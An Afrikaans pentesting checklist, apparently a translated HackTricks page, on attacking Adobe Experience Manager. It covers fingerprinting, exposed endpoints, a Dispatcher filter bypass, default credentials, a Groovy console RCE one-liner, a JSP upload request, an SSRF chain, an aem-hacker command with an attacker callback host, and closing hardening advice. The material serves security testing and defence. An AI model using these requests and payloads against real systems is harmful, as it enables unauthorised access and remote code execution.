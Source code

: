 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, deel van die Adobe Experience Cloud) is 'n ondernemings CMS wat bo-op Apache Sling/Felix (OSGi) en 'n Java Content Repository (JCR) loop.
> Vanuit 'n aanvaller se perspektief stel AEM-instansies baie dikwels gevaarlike ontwikkelings eindpunte, swak Dispatcher-reëls, standaard geloofsbriewe en 'n lang ster van CVE's bloot wat elke kwartaal reggestel word.

Die kontrolelys hieronder fokus op **extern bereikbare (unauth) aanval oppervlak** wat voortdurend in werklike betrokkenhede verskyn (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Ander vinnige aanwysers:
* `/etc.clientlibs/` statiese pad teenwoordig (gee JS/CSS terug).
* `/libs/granite/core/content/login.html` aanmeldblad met die “Adobe Experience Manager” banier.
* `</script><!--/* CQ */-->` kommentaar aan die onderkant van HTML.

---

## 2. Hoëwaarde nie-geoutentiseerde eindpunte

Pad | Wat jy kry | Aantekeninge
---- | ------------- | -----
`/.json`, `/.1.json` | JCR knope via **DefaultGetServlet** | Dikwels geblokkeer, maar *Dispatcher omseiling* (sien hieronder) werk.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Lek van bladboom, interne pades, gebruikersname.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix konsole | 403 per standaard; as blootgestel & akrediteer gevind ⇒ bundel-oplaai RCE.
`/crx/packmgr/index.jsp` | Pakketbestuurder | Laat geoutentiseerde inhoudspakkette toe → JSP payload oplaai.
`/etc/groovyconsole/**` | AEM Groovy Konsole | As blootgestel → arbitrêre Groovy / Java uitvoering.
`/libs/cq/AuditlogSearchServlet.json` | Oudit logs | Inligtingsontsluiting.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs storting | XSS vektor.

### Dispatcher omseiling truuk
Meeste produksie webwerwe sit agter die *Dispatcher* (omgekeerde proxy). Sy filterreëls kan omseil word deur 'n toegelate statiese uitbreiding **na 'n puntkomma of geënkodeerde nuwe lyn** by te voeg:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
'n Enkele versoek soos hierbo openbaar gereeld gebruikersprofielknope met e-posadresse. P-T Partners het goeie leiding oor hierdie swakheid gepubliseer. 【】

---

## 3. Algemene miskonfigurasies (nog steeds lewendig in 2025)

1. **Anonieme POST servlet** – `POST /.json` met `:operation=import` laat jou toe om nuwe JCR knope te plant.  Om `*.json` POST in die Dispatcher te blokkeer, los dit op. 【】
2. **Wêreldleesbare gebruikersprofiele** – standaard ACL verleen `jcr:read` op `/home/users/**/profile/*` aan almal.
3. **Standaard akrediteer** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** geaktiveer ⇒ weerspieëlde XSS via `?debug=layout` (CVE-2016-7882, steeds gevind op erfenis 6.4 installasies).
5. **Groovy Console blootgestel** – afstandkode-uitvoering deur 'n Groovy-skrip te stuur:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Onlangse kwesbaarhede (dienspakket ritme)

Kwartaal | CVE | Aangetaste | Impak
------- | --- | -------- | ------
Des 2024 | **CVE-2024-43711** | 6.5.21 en vroeër | Onbehoorlike invoervalidasie → **Arbitraire kode-uitvoering** (vereis lae-priv akte). 【】
Des 2024 | CVE-2024-43724/26 | 6.5.21 en vroeër | DOM / Gestoor XSS in Move Page Wizard. 【】
Des 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-gebaseerde XSS via vervaardigde URL. 【】
Des 2022 | CVE-2022-30683 | ≤ 6.5.13 | Krypto ontwerpfout → geheime ontsleuteling (benodig lae-priv akrediteer). 【】

Kontroleer altyd die *APSB* bulletin wat ooreenstem met die kliënt se dienspakket en vra die nuutste **6.5.22** of *Cloud Service 2024.11*.

---

## 5. Exploitasiestukke

### 5.1 RCE via dispatcher omseiling + JSP opgelaai
As anonieme skryf moontlik is:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Now request `/content/evil.jsp` – die JSP loop met die AEM proses gebruiker.

### 5.2 SSRF na RCE (histories < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` van **aem-hacker** outomatiseer die volle ketting. 【】

---

## 6. Gereedskap

* **aem-hacker** – Swiss-army enumerasie skrip, ondersteun dispatcher omseiling, SSRF opsporing, standaard-kredens kontrole en meer.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Inhoud Brute-force** – herhalend versoek `/_jcr_content.(json|html)` om versteekte komponente te ontdek.
* **osgi-infect** – laai kwaadwillige OSGi bundel op via `/system/console/bundles` as kredens beskikbaar is.

---

## 7. Versterking kontrolelys (vir jou verslag se aanbevelings)

1. Hou die instansie op die **nuutste kumulatiewe dienspakket** (soos van Jul 2025: 6.5.22).
2. Verwyder/roteer standaard rekeninge; afdwing SSO/SAML.
3. Versterk **Dispatcher filters** – weier `;`, geënkodeerde nuwe reëls, en `*.json` of `*.querybuilder.json` vir anonieme gebruikers.
4. Deaktiveer of beskerm consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) met IP toelaat-lists.
5. Pas die *Anonieme Toestemming Versterking* pakket toe wat deur Adobe gestuur is.

## Verwysings

* Adobe Security Bulletin APSB24-69 – “Veiligheidsopdaterings vir Adobe Experience Manager (Des 2024)”.
* 0ang3el – aem-hacker hulpmiddel (GitHub).
{{#include ../../banners/hacktricks-training.md}}
